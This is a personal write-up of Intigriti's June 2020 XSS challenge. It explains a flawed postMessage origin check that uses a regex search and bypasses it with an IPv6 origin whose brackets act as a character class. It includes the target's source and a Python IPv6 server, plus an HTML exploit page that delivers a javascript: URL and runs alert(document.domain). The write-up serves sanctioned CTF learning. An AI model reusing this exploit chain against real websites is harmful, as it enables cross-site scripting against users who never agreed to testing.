


### Challenge



### Recon

* I came to know about this challenge reading the [writeup]("https://physuru.dev/blog/intigriti_june_2020_challenge/"), this was the first time I was attempting this type of XSS so had learnt a lot. Referring to the writeup helped. 

* Source at challenge-june.intigriti.io/challenges/june.html
```
curl challenge-june.intigriti.io/challenges/june.html
<!DOCTYPE html>
<html>
<head>
  <title>June XSS Challenge - Intigriti</title>
  <meta name="twitter:card" content="summary_large_image">
  <meta name="twitter:site" content="@intigriti">
  <meta name="twitter:creator" content="@intigriti">
  <meta name="twitter:title" content="June XSS Challenge - Intigriti">
  <meta name="twitter:description" content="Find the XSS and WIN a Burp Suite Pro license.">
  <meta name="twitter:image" content="https://challenge-june.intigriti.io/june.jpg">
  <meta property="og:url" content="https://challenge-june.intigriti.io" />
  <meta property="og:type" content="website" />
  <meta property="og:title" content="June XSS Challenge - Intigriti" />
  <meta property="og:description" content="Find the XSS and WIN a Burp Suite Pro license." />
  <meta property="og:image" content="https://challenge-june.intigriti.io/june.jpg" />
  <link rel="stylesheet" type="text/css" href="../style.css">
  <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;700&display=swap" rel="stylesheet">
  <script>
    if(parent){
      setTimeout(function(){
        parent.postMessage(window.location.href, "http://challenge-june.intigriti.io");
      }, 1000);
    }
  </script>
</head>
<body>
  <div id="challenge-container">
    <div id="challenge-info">
      
      <h1><a href="https://intigriti.com" target="_blank">Intigriti</a>'s June XSS challenge</h1>
      <p>Find a way to execute arbitrary javascript on this page and win a Burp Suite Pro License.</p>
      <b>Rules:</b>
      <ul>
        <li>This challenge runs from June 15 until June 21, 11:59 PM CET.</li>
        <li>Out of all correct submissions, we will randomly draw one winner on Monday, June 22.</li>
        <li>The winner gets a Burp Suite Pro License (1 year)</li>
        <li>The winner will be announced on our <a href="https://twitter.com/intigriti" target="_blank">Twitter profile</a>.</li>
        <li>For every 100 likes, we'll add a tip to <a href="https://go.intigriti.com/challenge-tips" target="_blank">announcement tweet</a>.</li>
      </ul>
      <b>The solution...</b>
      <ul>
        <li>Should be reported here: <a href="https://go.intigriti.com/submit-solution" target="_blank">go.intigriti.com/submit-solution</a></li>
        <li>Should work on the latest version of Firefox or Chrome</li>
        <li>Should execute the following JS: <code>alert(document.domain)</code></li>
        <li>Should be executed on this page, on <a href="http://challenge-june.intigriti.io">challenge-june.intigriti.io/</a></li>
        <li>Should work without user interaction (no self XSS) or MiTM</li>
      </ul>
    </div>
  </div>
</body>
```

* Source at challenge-june.intigriti.io
```
kali@kali$ curl challenge-june.intigriti.io
<!DOCTYPE>
<html>
  <head>
    <title>June XSS Challenge - Intigriti</title>
    <meta name="twitter:card" content="summary_large_image">
    <meta name="twitter:site" content="@intigriti">
    <meta name="twitter:creator" content="@intigriti">
    <meta name="twitter:title" content="June XSS Challenge - Intigriti">
    <meta name="twitter:description" content="Find the XSS and WIN a Burp Suite Pro license.">
    <meta name="twitter:image" content="https://challenge-june.intigriti.io/june.jpg">
    <meta property="og:url" content="https://challenge-june.intigriti.io" />
    <meta property="og:type" content="website" />
    <meta property="og:title" content="June XSS Challenge - Intigriti" />
    <meta property="og:description" content="Find the XSS and WIN a Burp Suite Pro license." />
    <meta property="og:image" content="https://challenge-june.intigriti.io/june.jpg" />
    <link rel="stylesheet" type="text/css" href="../style.css">
    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@400;700&display=swap" rel="stylesheet">
    <script>
      window.onhashchange = function(hash){
          loadChallenge(location.hash);
      }

      window.onmessage = function(e) {
      	if (e.source == challenge.contentWindow &&
      		'http://challenge-june.intigriti.io'.search(e.origin.replace(/\./g,'\\.')) > -1)
      		location.href = e.data;
      }

      window.onload = function(){
        var hash = location.hash;
        if(!hash){
            window.location.hash = "june";
        }
        else{
            loadChallenge(hash);
        }
      }

      function loadChallenge(hash){
          hash = hash.substr(1);
          var frame = document.createElement("frame");
          frame.id = `challenge`;
          frame.src = `./challenges/${hash}.html`;
          document.body.appendChild(frame);
      }
    </script>
    <link rel="stylesheet" type="text/css" href="style.css">
  </head>
  <body>
    <div id="loading-container">
      <div id="loading">
        
        <p>Loading</p>
      </div>
    </div>
  </body>
</html>
```

* Accessing challenge-june.intigriti.io directly, redirects to challenge-june.intigriti.io/#june and then to challenge-june.intigriti.io/challenges/june.html

* Peeking javascripts
  - Challenge page: posts message to the original page with location param
  ```
    if(parent){
      setTimeout(function(){
        parent.postMessage(window.location.href, "http://challenge-june.intigriti.io");
      }, 1000);
    }
  ```

  - Root page js and adding comments to each function
  ```
    // no checks, only calls loadChallenge
    window.onhashchange = function(hash){
          loadChallenge(location.hash);
    }

    // We can iinject user controlled input to location which would then follow post message and cause xss
    // The check needs to be bypassed
    // - origin should contain a character from http://challenge-june.intigriti.io, origin.replace should be used as regex here 
    window.onmessage = function(e) {
      	if (e.source == challenge.contentWindow &&
      		'http://challenge-june.intigriti.io'.search(e.origin.replace(/\./g,'\\.')) > -1)
      		location.href = e.data;
      }

    // if there is no hash then use #june
    window.onload = function(){
        var hash = location.hash;
        if(!hash){
            window.location.hash = "june";
        }
        else{
            loadChallenge(hash);
        }
      }

    // Location hash == #xxx --> strip # and construct path with the remaining 
    function loadChallenge(hash){
          hash = hash.substr(1);
          var frame = document.createElement("frame");
          frame.id = `challenge`;
          frame.src = `./challenges/${hash}.html`;
          document.body.appendChild(frame);
      }
  ```

* Test by sending custom message
```
<html>
  <head>Post Message XSS Challenge - Intigriti June</head>
  <body>
    <br>
    <iframe id="frame" src="http://challenge-june.intigriti.io/#xss"></iframe>
    <script>
      console.log("Done!");
    </script>
  </body>
</html>
```

* In order to bypass the `.search()` function in javascript. We would need a regex like string as origin.
  * Initially I exposed something like a ngrok url to do this as it would contain certain HEX characters. Testing this with separate JS console was not a success
  * I knew about it way after the challenge, so twitter and writeup mentioned about ipv6. Accessing IPV6 urls via http looks like http://[<ipv6>]//, looking like the [<character set>] accomplishing the regex pattern. We also need to ensure the ipv6 has atleast one char of the challenge-june.intigriti.io

* To access via Ipv6 we need to ensure we have a server exposing at ipv6 with the exploit page containing the iframe
  - NOTE 1: Do not use link local ipv6. Ensure you host proper html page reachable via ipv6. Ensure you use the default port 80 rather than custom ports as the regex search did not work with :8000 port mentions
  - NOTE 2: Instead of specifically accessing this page, add as index.html so python HTTPServer exposes this page by default instead of mentioning the page path in url. So save as `index.html`

```
# My network is not setup for ipv6 so currently all it binds to is fe80 link local address. Using a hosted server. 
# Using ngrok helps, the url by default has hex to what we want, and also it can be accessed via a ipv6 address.
# Make index.html with iframe and the exploit

# Ref: https://stackoverflow.com/questions/25817848/python-3-does-http-server-support-ipv6
import socket
from BaseHTTPServer import HTTPServer
from SimpleHTTPServer import SimpleHTTPRequestHandler

class MyHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
      return SimpleHTTPRequestHandler.do_GET(self)

class HTTPServerV6(HTTPServer):
    address_family = socket.AF_INET6

def main():
  server = HTTPServerV6(('::', 80), MyHandler)
  server.serve_forever()

if __name__ == '__main__':
  main()
```

* putting up some console.logs and checking the execution,
```
<html>
  <head>Post Message XSS Challenge - Intigriti June</head>
  <body>
    <br>
    <iframe id="xss_frame" width=600 height=800 ></iframe>
    <script>

      console.log(location.search);

      let frame = document.getElementById("xss_frame");
      frame.src = "http://challenge-june.intigriti.io/#xss"
        
      frame.onload = function() {
        frame.contentWindow.frames[0].location = "http://[2604:a880:2:d1::3c:b050]"
        }
               
      console.log(frame);
      console.log("Done!");
    </script>
  </body>
</html>
```

* So we have the page redirection, now we need to set the location.href to be the xss payload and delivered to the post message. Setting up an other get param just to get notified when to send the payload

```
<html>
  <head>Post Message XSS Challenge - Intigriti June</head>
  <body>
    <br>
    <iframe id="xss_frame" width=600 height=800 ></iframe>
    <script>

      console.log(location.search);
      if ((location.search).includes("shoot_payload")) {
          console.log("Sending exploit...")
          parent.postMessage("javascript:alert(document.domain)", "http://challenge-june.intigriti.io");
      } 
      let frame = document.getElementById("xss_frame");
      frame.src = "http://challenge-june.intigriti.io/#xss"
        
      frame.onload = function() {
        frame.contentWindow.frames[0].location = "http://[2604:a880:2:d1::3c:b050]?shoot_payload=1"
        }
               
      console.log(frame);
      console.log("Done!");
    </script>
  </body>
</html>
```

* Now accessing the page should send the payload and cause xss as the location ref is set to javascript protocol.

### Solve



### Reference
  * https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/
  * https://physuru.dev/blog/intigriti_june_2020_challenge/